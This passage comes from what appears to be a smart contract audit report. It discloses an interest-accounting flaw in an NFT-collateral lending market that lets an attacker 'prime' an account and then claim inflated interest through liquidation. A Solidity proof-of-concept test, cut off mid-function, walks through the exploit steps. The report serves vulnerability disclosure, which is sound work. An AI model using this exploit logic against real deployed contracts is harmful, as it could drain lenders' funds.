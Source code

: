 In this case, it is likely that the amount of phony interest earned would outstrip the actual interest paid by such a substantial amount that the interest market could be drained of all its funds.

### Proof of Concept

The following test can be run to demonstrate this exploit. It follows the same logic outlined above: an attacker mints and immediately redeems to "prime" an account for the later attack by locking in the supply interest index. Later, they create a liquidatable position and immediately liquidate it, but are able to claim the full interest for the time period since their initial "priming" of the account.

You can find the `BaseTest.t.sol` file, which is used as the backbone for all POCs in this report, [in this Gist](https://gist.github.com/zobront/44a1909a8451d7649443d0e2717a96ab).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./BaseTest.t.sol";

contract SeizeInterestTest is BaseTest {
    function testSeizeInterest() public {
        // attacker mints and redeems to lock in interest index
        _distributeAndMintBAYC(attacker, 99);
        vm.prank(attacker);
        baycCERC721.redeemUnderlying(1);

        // some other users enter the market (don't matter for POC but market must have some activity)
        _distributeAndMintBAYC(lender, 1);
        _distributeERC20(USDC, borrower, 100_000e6, address(imMarket));
        vm.startPrank(borrower);
        imMarket.mint(100_000e6);
        baycCERC721.borrow(1);
        vm.stopPrank();

        // 1 year passes
        vm.roll(block.number + blocksPerYear);
        baycCERC721.accrueInterest();

        // another user deposits some BAYC and borrows max to set up for liquidation
        // note that the attacker could do this themselves
        address user = makeAddr("user");
        _distributeAndMintBAYC(user, 2);
        _distributeAndMintBAYC(user, 3);
        vm.prank(user);
        imMarket.borrow(100_000e6);

        // at this point, nobody should be owed anything
        console2.log("Attacker Interest Owed: ", baycCERC721.supplyInterestCurrent(attacker));
        console2.log("User Interest Owed: ", baycCERC721.supplyInterestCurrent(user));

        // to allow for simple liquidation, let's increase price of USDC by 2%
        MockOracle usdcMoonOracle = new MockOracle(1.02e8);
        oracle.setAssetPriceFeed(CToken(address(imMarket)), address(usdcMoonOracle));

        // liquidate the user
        uint[] memory empty = new uint[](0);
        Comptroller.Liquidatables memory liqable = Comptroller.Liquidatables(address(imMarket), 50_000e6, empty);
        Comptroller.Liquidatables[] memory liqables = new Comptroller.Liquidatables[](1);
        liqables[0] = liqable;
        CTokenInterface[] memory collaterals = new CTokenInterface[](1);
        collaterals[0] = CTokenInterface(address(baycCERC721));
        _distributeERC20(USDC, attacker, 50_000e6, address(imMarket));
```